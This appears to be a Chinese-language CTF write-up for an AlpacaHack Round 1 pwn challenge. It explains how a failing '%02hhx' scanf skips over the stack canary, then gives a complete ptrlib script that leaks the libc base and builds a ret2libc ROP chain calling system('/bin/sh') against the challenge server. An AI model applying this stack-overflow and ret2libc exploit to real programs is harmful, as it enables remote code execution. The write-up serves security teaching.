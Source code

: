 ### Scanf 绕过泄露 Libc

话不多说，直接上题（AlpacaHack Round 1）

![](https://pic1.imgdb.cn/item/679f57add0e0a243d4f99574.png)

主要代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

int get_size() {
  int size = 0;
  scanf("%d%*c", &size);
  return size;
}

void get_hex(char *buf, unsigned size) {
  for (unsigned i = 0; i < size; i++)
    scanf("%02hhx", buf + i);
}

void hexecho() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data (hex): ");
  get_hex(buf, size);

  // Show data
  printf("Received: ");
  for (int i = 0; i < size; i++)
    printf("%02hhx ", (unsigned char)buf[i]);
  putchar('\n');
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  hexecho();
  return 0;
}
```

`%02hhx` 会读取**最多2个十六进制字符**，遇到非十六进制字符（如空格）时停止

可以参考 3.1 那一节，我们这次输入数据要转为十六进制数

但是少了后门函数，附件还给了 libc.so 文件，推测要泄露 libc 基址

查看缓冲区大小

![](https://pic1.imgdb.cn/item/679f626ed0e0a243d4f9972c.png)

**如果给出一个非十六进制的字符串，scanf 将失败，字符后面的任何字符都将被忽略并且 for 语句可以继续**

缓冲区到 r 处是 280 字节，我们需要在 279 字节处输入正常数值，不然 r 处一样会被忽略

```python
from ptrlib import *

p = Socket('34.170.146.252', 51786)
e = ELF('./hexecho_patched')
libc = ELF('./libc.so.6')

# 将一个地址转换为十六进制字符串，并按两个字符分隔输出
def to_hex(addr):
    print(hex(addr))
    h = p64(addr).hex()
    return ' '.join([h[i:i+2] for i in range(0, len(h), 2)])
    
p.sendlineafter('Size: ', 280 + 16)
p.recvuntil('Data (hex): ')

for i in range(279):
    p.send(b'+')

p.send('22 ')

# e.gadget('ret;') 查找下一个 “ret;”
p.sendline(to_hex(next(e.gadget('ret;'))))

# 获取 main 函数的地址
p.sendline(to_hex(e.symbol('main')))

# 获取 Libc 基址
recv = p.recvlineafter('Received: ').split()
idx = recv.index(b'7f')
ofs = int(b''.join(recv[idx-5:idx+1][::-1]).decode(), 16)
libc.base = ofs - 0x7f7117a5c780 + 0x7f7117841000

p.sendlineafter('Size: ', 280 + 8 * 4)
p.recvuntil('Data (hex): ')

for i in range(279):
    p.send(b'+')
    
p.send('22 ')

p.sendline(to_hex(next(e.gadget('ret;'))))

# 查找并发送 pop rdi; ret;
p.sendline(to_hex(next(libc.gadget('pop rdi; ret;'))))
p.sendline(to_hex(next(libc.find(b'/bin/sh'))))
p.sendline(to_hex(libc.symbol('system')))

r = p.recvlineafter('Received: ')

p.interactive()
```

运行脚本拿到 flag

![](https://pic1.imgdb.cn/item/679f780cd0e0a243d4f99ac0.png)
